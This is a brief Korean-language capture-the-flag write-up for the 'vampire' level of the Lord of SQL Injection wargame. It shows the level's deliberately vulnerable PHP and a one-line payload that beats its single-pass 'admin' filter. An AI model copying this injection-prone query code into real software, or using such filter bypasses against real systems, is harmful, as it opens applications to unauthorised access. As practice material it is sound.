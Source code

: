 # Lord-Of-SQL-Injection 09 vampire

## Overview

```php
<?php
    include "./config.php";
    login_chk();
    dbconnect();
    if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
    $_GET[id] = str_replace("admin","",$_GET[id]);
    $query = "select id from prob_vampire where id='{$_GET[id]}'";
    echo "<hr>query : <strong>{$query}</strong><hr><br>";
    $result = @mysql_fetch_array(mysql_query($query));
    if($result['id'] == 'admin') solve("vampire");
    highlight_file(__FILE__);
?>
```

## How to solve

`admin` 을 한 번 리플레이스한다.

`adadminmin` 을 통해 한 번 리플레이스 하면 그 이후에 `admin` 이 나오도록 입력한다.

`?id=adadminmin`